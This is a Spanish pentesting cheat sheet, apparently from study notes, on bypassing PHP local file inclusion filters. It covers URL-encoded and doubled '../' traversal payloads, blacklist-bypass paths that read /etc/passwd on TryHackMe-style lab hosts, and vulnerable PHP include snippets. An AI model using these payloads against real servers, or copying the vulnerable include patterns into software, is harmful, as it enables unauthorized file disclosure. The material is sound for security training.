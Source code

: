 En las versiones 5.3.4 de PHP y anteriores, la detección basada en cadenas se podía omitir mediante la codificación de la carga útil mediante URL. Los caracteres `../`se pueden codificar en URL `%2e%2e%2f`, lo que evitará el filtro.

### CODIFICACION

En el último ejemplo, `....// `se puede codificar en URL `%2e%2e%2e%2e%2f%2f`.

La carga útil `%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd` evitará el filtro en la sección anterior.

```bash
# URL

http://134.209.184.216:32391/basic/index.php?language=es.php

# CODIGO

$language = str_replace('../', '', $_GET['language']);

# LFI

http://134.209.184.216:32391/blacklist/index.php?language=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
```

### BLACKLIST PATH BYPASS

en casos en donde se verifique que no debe existir **../..** en la ruta podemos evadirlo usando el siguiente payload `/.././.././.././../`:

```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././../etc/passwd
```

- [https://tryhackme.com/room/archangel](https://tryhackme.com/room/archangel)
- [https://hackerone.com/reports/147570](https://hackerone.com/reports/147570)

### EXTENSION ADJUNTA

codigo de ejemplo:

```php
include($_GET['language'] . ".php");
```

>[!note]
>Con las versiones modernas de PHP, es posible que no podamos eludir esto y que solo podamos leer archivos en esa extensión, lo que aún puede ser útil, como veremos en la siguiente sección (por ejemplo, para leer el código fuente).

#### TRUNCAMIENTO DE LA RUTA
